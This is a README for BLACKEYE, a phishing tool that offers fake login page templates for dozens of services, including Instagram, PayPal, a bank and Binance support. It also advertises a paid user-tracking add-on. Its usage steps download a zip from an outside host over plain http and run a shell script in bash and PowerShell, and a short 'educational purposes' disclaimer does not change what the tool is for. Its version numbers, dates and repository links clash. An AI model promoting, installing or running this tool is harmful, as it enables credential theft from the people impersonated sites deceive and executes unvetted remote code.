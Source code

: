 ### How to buy UTS7 (User Tracking System 7) and get your discount: s80jfjs

[Buy UTS7 (User Tracking System 7)](https://bpighold.gumroad.com/l/UTS7/s80jfjs)


## BLACKEYE v2.0 (Major Update on August 23, 2025 | New: Bank Template, Upcoming Localhost Feature, and More)
##### The tool is completely free now 
##### Creat by EricksonAtHome

> [! Need Donations]
> Your donations play a vital role in expediting the project's completion. With your support, we can swiftly bring this enhanced version to life and continue delivering valuable updates. [1]: [https://www.buymeacoffee.com/myberp] "Buy Me a Coffee (myberp)"

-----------------------------------------------------------------------------------------------------------------------------
![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bkev3.png)

23:08:2024  Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bankofa.png)

[New Binance Email Support Clone for BLACKEYE v3.1 ](https://github.com/EricksonAtHome/bes)

Update

[New UTS7 (User Tracking System 7) for BLACKEYE v3.1 ](https://github.com/EricksonAtHome/UTS7)

### UPDATES :
##### UPDATES_TMP websites :          

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom      
                                                  [41] Binance Email Support  
                                                  [42] UTS7 (User Tracking System 7)
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok      
          
##### Add:  Localtunnel
###   Contact me on X : @amirmahdizare or on responded.erickson.elite

-----------------------------------------------------------------------------------------------------------------------------
### Coded/Upgraded by: @EricksonAtHome (https://github.com/EricksonAtHome/blackeye)

#### Credits (Copyright)
#### Phishing Pages generated by An0nUD4Y (https://github.com/An0nUD4Y):

#### Description
BLACKEYE is an upgrade from original ShellPhish Tool (https://shellphish.net) by thelinuxchoice under GNU LICENSE. It is the most complete Phishing Tool,  with 32 templates +1 customizable

## Legal disclaimer:
Usage of BlackEye for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no  liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

### Installation:
1. Clone the repository:
    ```sh
    git clone https://github.com/amir13872/blackeye.git
    ```
2. Navigate to the project directory:
    ```sh
    cd blackeye
    ```
3. Install dependencies:
    ```sh
    yarn install
    ```

### Usage:
```
curl -O http://dsvr.blackeye.cloud/alld/blackeye.zip
cd blackeye
bash blackeye.sh
```
### Usage PowerShell:
```
Invoke-WebRequest -Uri http://dsvr.blackeye.cloud/alld/blackeye.zip -OutFile blackeye.zip
cd blackeye
bash blackeye.sh
```

### Usage with ngrok:
1. Download and install ngrok from [ngrok.com](https://ngrok.com/).
2. Start the script:
    ```sh
    bash blackeye.sh
    ```
3. Choose ngrok as the tunneling method when prompted.





